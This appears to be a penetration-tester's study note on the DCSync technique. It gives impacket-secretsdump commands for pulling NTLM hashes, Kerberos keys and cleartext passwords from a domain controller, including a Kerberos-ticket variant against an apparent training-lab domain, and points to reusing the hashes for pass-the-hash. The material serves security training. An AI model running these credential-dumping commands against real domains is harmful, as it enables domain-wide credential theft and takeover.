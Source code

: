 ```yaml
---
tags:
  - linux
  - dcsync
  - sid-abuse
---
```

```shell-session
$ impacket-secretsdump -outputfile <OUTPUT> -just-dc <DOMAIN>/<USER>@<DC-IP>
```
>The `<USER>` should have `DS-Replication-Get-Changes-All` permission assigned

This generates three files:
1. File with NTLM hashes (decode or relay in #PtH attacks)
2. File with Kerberos Keys
3. Cleartext passwords from the NTDS if any account is set with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled.

- If `KRB5CCNAME` is loaded with `.ccache`:
```shell-session
$ impacket-secretsdump -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
We could have simple used `ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` because the tool will retrieve the username from the `.ccache` file
# Useful Flags
- `-just-dc`: extracts NTLM hashes and Kerberos keys from the NTDS file
- `-just-dc-user`: to only extract data for a specific user
- `-pwd-last-set`: check last password change date
- `-history`: dump password history
- `-user-status`: to check whether a user is disabled or not
